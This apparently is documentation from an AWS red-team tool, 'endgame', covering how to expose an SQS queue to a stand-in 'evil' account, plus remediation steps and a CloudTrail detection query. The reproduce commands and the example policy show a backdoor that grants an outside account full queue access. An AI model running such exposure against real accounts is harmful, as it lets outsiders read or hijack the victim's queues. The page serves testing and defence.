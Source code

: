 # SQS Queues

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* To verify that the SQS queue has been shared with a rogue user, run the following from the victim account:

```bash
export QUEUE_URL=(`aws sqs get-queue-url --queue-name test-resource-exposure | jq -r '.QueueUrl'`)

aws sqs get-queue-attributes --queue-url $QUEUE_URL --attribute-names Policy
```

* Observe that the contents match the example shown below.

## Example

The policy below allows the Evil Principal's account ID (`999988887777` access to `sqs:*` to the victim resource (`arn:aws:sqs:us-east-1:111122223333:test-resource-exposure`), indicating a successful compromise.


```json
{
    "Attributes": {
        "Policy": "{\"Version\":\"2008-10-17\",\"Id\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure/SQSDefaultPolicy\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"}]}"
    }
}

```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SQS Queues are only shared with trusted accounts, and that the trusted accounts truly need access to the SQS Queue.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  SQS Queues. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SQS Queues**: Tightly control access to the following IAM actions:
      - [sqs:AddPermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_AddPermission.html): _Adds a permission to a queue for a specific principal._
      - [sqs:RemovePermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_RemovePermission.html): _Revokes any permissions in the queue policy that matches the specified Label parameter._
      - [sqs:GetQueueAttributes](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueAttributes.html): _Gets attributes for the specified queue. This includes retrieving the list of principals who are authorized to access the queue._
      - [sqs:GetQueueUrl](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueUrl.html): _Returns the URL of an existing queue._
      - [sqs:ListQueues](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_ListQueues.html): _Returns a list of your queues._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='sqs.amazonaws.com' AND (eventName='AddPermission' or eventName='RemovePermission')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws sqs add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sqs/add-permission.html)
* [aws sqs get-queue-attributes](https://docs.aws.amazon.com/cli/latest/reference/sqs/get-queue-attributes.html)
